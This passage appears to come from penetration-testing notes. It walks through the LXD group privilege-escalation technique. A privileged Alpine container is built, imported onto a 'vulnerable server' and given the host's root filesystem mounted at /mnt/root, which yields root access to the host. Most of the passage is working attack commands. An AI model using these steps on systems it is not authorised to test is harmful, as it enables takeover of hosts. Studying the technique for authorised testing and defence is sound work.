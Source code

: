 * Make distrobuilder (attack box)

```
cd $HOME/go/src/github.com/lxc/distrobuilder
make
```

* Prepare the creation of Alpine (attack box)

```
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```

* Create the container (attack box)

```
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml
```

\-If that fails, run it adding `-o image.release=3.8` at the end

* Upload `lxd.tar.xz` and `rootfs.squashfs` to the vulnerable server
* Add the image on the vulnerable server

```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```

* Second command is only if you want to confim the imported image is present
* Create a container and add the root path

```
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

* Execute the container

```
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root
```

* `/mnt/root` is where the file system is mounted.

**Errors-on the vulnerable server**

* If you recieve an `Failed container creation: No storage pool found. Please create a new storage pool.`
* You need to initialize lxd before using it

```
lxd init
```

* Read the options and use the defaults

### Capabilities
